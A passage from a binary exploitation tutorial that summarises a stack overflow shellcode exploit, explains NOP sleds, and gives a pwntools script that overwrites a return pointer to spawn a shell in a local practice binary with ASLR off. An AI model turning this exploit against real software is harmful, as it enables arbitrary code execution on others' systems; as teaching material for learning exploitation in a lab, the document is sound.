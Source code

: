 ### Summary

- We injected shellcode, a series of assembly instructions, when prompted for input
- We then hijacked code execution by overwriting the saved return pointer on the stack and modified it to point to our shellcode
- Once the return pointer got popped into EIP, it pointed at our shellcode
- This caused the program to execute our instructions, giving us (in this case) a shell for arbitrary command execution

## NOPs

> More reliable shellcode exploits

NOP (no operation) instructions do exactly what they sound like *nothing*. This makes them very useful for shellcode exploits because all they will do is run the next instruction. If we pad our exploits on the left with NOPs and point EIP in the middle of them, it'll simply keep doing no instructions until it reaches our actual shellcode. This allows us a greater margin of error as a shift of a few bytes forward or backward won't really affect it, it'll just run a different number of NOP instructions - which have the same end result of running the shellcode. This padding with NOPs is often called a NOP slide or NOP sled since the EIP is essentially sliding down them.

In intel x86 assembly, NOP instructions are `\x90`.

> The NOP instruction actually used to stand for `XCHG EAX, EAX`, which does effectively nothing. You can read a bit more about it [on this StackOverflow question](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions/25053039).

### Updating our Shellcode Exploit

We can make slight changes to our exploit to do two things:

- Add a large number of NOPs on the left
- Adjust our return pointer to point at the middle of the NOPs rather than the buffer start

> Make sure ASLR is still disabled. If you have to disable it again, you may have to readjust your previous exploit as the buffer location may be different.

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240                 # The NOPs
payload += asm(shellcraft.sh())         # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4 + 120)        # Address of the buffer + half nop length

log.info(p.clean())

p.sendline(payload)

p.interactive()
```
